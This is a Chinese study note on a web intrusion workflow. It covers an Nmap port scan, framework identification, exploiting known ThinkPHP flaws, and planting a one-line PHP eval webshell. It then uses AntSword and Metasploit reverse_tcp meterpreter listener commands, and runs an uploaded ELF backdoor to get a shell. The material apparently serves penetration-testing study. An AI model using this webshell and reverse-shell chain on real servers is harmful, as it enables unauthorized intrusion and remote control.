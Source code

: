 ```yaml
---
title: Nmap 基础
date: 2019-08-03
tags:
 - Git
categories:
 - 学习笔记
---
```


## 快速识别网站

### 扫端口

如：快扫网关已开启的端口

*：快扫并不完整，只扫常用端口

8080端口启用，代表可能存在网站服务

![image-20220801173105133](./2_Nmap.assets/image-20220801173105133.png)



Kali中的Nmap只能使用命令行，常用命令：

```
nmap -sT -T4 [ipAddress]
```

> -s: Scan
>
> T: TCP
>
> -T Time	# 控制时间
>
> 4				# 扫描速度(0-5 数字越大越快)



同类工具：御剑端口扫描工具



### 看开发框架

> 通常存在于页面末端或网站图标或F12里



### 搜索历史漏洞并利用

如：thinkphp

![image-20220801174548963](./2_Nmap.assets/image-20220801174548963.png)



### 上传后门

例1：

![image-20220801190619947](./2_Nmap.assets/image-20220801190619947.png)

例2：

![image-20220801190633220](./2_Nmap.assets/image-20220801190633220.png)

### Webshell

Ex：一句话木马

```php
<?php eval($_POST[ccc];)?>
```



常用工具：中国蚁剑、菜刀、哥斯拉、冰蝎

**蚁剑为例**：

仓库：[AntSwordProject (github.com)](https://github.com/AntSwordProject)

文档：[AntSword 文档 · 语雀 (yuque.com)](https://www.yuque.com/antswordproject/antsword)



![image-20220803171818174](./2_Nmap.assets/image-20220803171818174.png)



连接成功后即可进行GetShell等操作

![image-20220803174708439](./2_Nmap.assets/image-20220803174708439.png)

**利用Metesploit进行攻击**

生成后门

*：Linux的可执行文件格式为elf，故-f 为 elf

![image-20220803175456903](./2_Nmap.assets/image-20220803175456903.png)



将后门Copy到服务器后，msfconsole开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost [kali_IP]
set lport [10000]
run
```



回到蚁剑，打开服务器Terminal，更改生成的elf文件的权限为可执行，并运行文件

```
chmod 777 demo10000.elf
./demo10000.elf
```



此时正在监听的kali便能get到更高权限的shell













